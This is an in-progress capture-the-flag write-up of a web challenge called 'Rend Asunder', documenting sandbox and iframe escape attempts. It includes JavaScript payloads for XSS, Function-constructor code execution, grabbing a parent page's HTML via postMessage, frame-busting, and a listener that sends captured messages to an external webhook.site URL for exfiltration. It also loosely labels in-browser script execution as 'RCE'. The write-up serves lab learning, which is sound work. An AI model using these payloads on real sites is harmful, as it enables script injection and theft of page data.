




# Rend Asunder

**Difficulty:** Expert  
**Category:** Native  
**Flags:** 1/3  
**Status:** 🔄 In Progress

---

## 🧠 Overview

Rend Asunder is a complex web security challenge that involves breaking out of sandboxed environments, iframe escaping, and achieving Remote Code Execution (RCE). The challenge presents a web application that renders user input, creating multiple attack vectors.

---

## 🎯 Challenge Hints Analysis

### Flag0 ✅ (Found)
- *"What do you have access to?"*
- *"Look around your sandbox"*
- *"Some places are Definitely mOre iMportant than others"*

### Flag1 ❌ (Not Found)
- *"The rendered page looks a bit odd"*
- *"Can you look outside your iframe?"*
- *"There might be something in the body or URL of the parent page"*

### Flag2 ❌ (Not Found)
- *"You need RCE here. No other way to put it!"*

---

## 🔍 Flag 0 - Sandbox Exploration

### Step 1: Basic Input Testing
The website renders whatever we input into the field. After testing various commands, I discovered the first flag using DOM manipulation.

### Step 2: Successful Commands

**Command 1 - Accessing noscript content:**
```javascript
document.write(document.getElementsByTagName('noscript')[0].innerHTML);
```

**What this does:**
- `document.getElementsByTagName('noscript')[0]` - Finds the first `<noscript>` element on the page
- `.innerHTML` - Gets the HTML content inside that element
- `document.write()` - Outputs the content to the document
- **Why it works:** The flag was hidden inside a `<noscript>` tag, which normally only displays when JavaScript is disabled

**Command 2 - Alternative approach:**
```javascript
Array.from(document.querySelectorAll('*')).forEach(e => {
  document.write(e.tagName + ': ' + e.innerText + '<br>');
});
```

**What this does:**
- `document.querySelectorAll('*')` - Selects ALL elements on the page
- `Array.from()` - Converts the NodeList to an array
- `.forEach()` - Loops through each element
- `e.tagName + ': ' + e.innerText` - Displays the tag name and text content of each element
- **Why it works:** This brute-force approach dumps all content from every element, including hidden ones



---

## 🖼️ Flag 1 - Iframe Escape Attempts

### Step 3: Environment Discovery

**Iframe Detection:**
```javascript
document.write(window === window.top ? "Top window" : "Inside iframe");
```
This confirmed we're operating inside an iframe, which explains the sandboxing.

**Window Object Analysis:**
```javascript
document.write(Object.keys(window).join("<br>"));
```
This revealed all available properties and methods on the window object.



### Step 4: RCE Achievement

**Alert Test (Proof of Concept):**
```javascript
[].constructor.constructor("alert('RCE!')")();
```

**What this does:**
- `[].constructor` - Gets the Array constructor
- `.constructor` - Gets the Function constructor (constructor of Array constructor)
- `"alert('RCE!')"` - JavaScript code as a string
- `()` - Executes the constructed function
- **Result:** Achieves Remote Code Execution by dynamically creating and executing JavaScript



### Step 5: Iframe Escape Attempts

**PostMessage Approach:**
```javascript
[].constructor.constructor(`
  try {
    top.postMessage(top.document.documentElement.outerHTML, '*');
  } catch (e) {
    document.write(e.toString());
  }
`)();
```

**URL Manipulation:**
```javascript
[].constructor.constructor("location.href='/?pwned=<script>alert(1)</script>'")();
```

**Location Information Gathering:**
```javascript
[].constructor.constructor(`
  document.write(
    "href: " + location.href + "<br>" +
    "origin: " + location.origin + "<br>" +
    "host: " + location.host + "<br>" +
    "hostname: " + location.hostname + "<br>" +
    "pathname: " + location.pathname + "<br>" +
    "search: " + location.search + "<br>" +
    "hash: " + location.hash
  )
`)()
```

### Step 6: Advanced Techniques

**Message Listener with Webhook:**
```javascript
window.addEventListener('message', e => {
  fetch('https://webhook.site/0ba38ed4-8cdf-4d9e-addb-f05f789d08ec?message=' + encodeURIComponent(e.data));
});
```

**Iframe Redirect:**
```html
</script><script>
  top.location = location.href;
</script><script>
```



---

## 🛠️ Technical Analysis

### Key Vulnerabilities Identified:
1. **DOM-based XSS** - User input directly rendered without sanitization
2. **Insufficient Sandboxing** - Can access constructor chains for RCE
3. **Iframe Misconfiguration** - Potential for frame-busting attacks
4. **Hidden Content Exposure** - Sensitive data in noscript tags

### Attack Vectors:
1. **Constructor Chain Exploitation** - Using `[].constructor.constructor` for RCE
2. **DOM Manipulation** - Accessing hidden elements via JavaScript
3. **PostMessage Exploitation** - Attempting cross-frame communication
4. **URL Manipulation** - Modifying location for XSS delivery

---

## 🎯 Current Status

- **Flag 0**: ✅ **FOUND** - Hidden in noscript tags
- **Flag 1**: ❌ **NOT FOUND** - Requires iframe escape
- **Flag 2**: ❌ **NOT FOUND** - Requires full RCE exploitation

---

## 🔍 Next Steps

1. **Iframe Escape**: Need to successfully break out of the iframe to access parent page
2. **Parent Page Analysis**: Once escaped, examine the parent page's body and URL
3. **Full RCE**: Leverage the constructor chain RCE for complete system access

---

## 🛠️ Tools & Techniques Used

- **JavaScript Constructor Chain Exploitation**
- **DOM Manipulation and Traversal**
- **PostMessage API**
- **Webhook Services** (for data exfiltration)
- **Frame-busting Techniques**
- **Browser Developer Tools**

---

## 🔑 Key Learnings

1. **Hidden Content Discovery**: Always check noscript tags and hidden elements
2. **Constructor Chain RCE**: `[].constructor.constructor` is a powerful technique for achieving RCE
3. **Iframe Sandboxing**: Understanding frame relationships is crucial for escape techniques
4. **PostMessage Security**: Cross-frame communication can be exploited for data exfiltration

---

## ⚠️ Challenge Complexity

This challenge demonstrates advanced web security concepts including:
- Sandbox escape techniques
- Constructor chain exploitation
- Cross-frame scripting
- Advanced DOM manipulation
- Remote code execution via JavaScript

The multi-layered approach requires deep understanding of browser security models and JavaScript execution contexts.